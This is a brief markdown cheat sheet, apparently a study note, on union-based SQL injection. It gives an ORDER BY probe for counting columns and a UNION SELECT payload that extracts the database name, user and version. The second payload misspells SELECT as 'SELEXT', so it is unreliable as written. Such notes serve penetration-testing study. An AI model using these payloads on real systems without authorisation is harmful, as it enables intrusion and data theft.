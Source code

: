 ## Union SQL Injection

Able to see if its vulnerable AND how many columns there are in response by putting the following and incrementing the number by 1 until you recieve an error

> ' ORDER BY 3-- //

Once you know how many cols are available you can start trying to pull out data using union select, remember to not go over your col limit.

> %' UNION SELEXT database(), user(), @@version, null, null -- //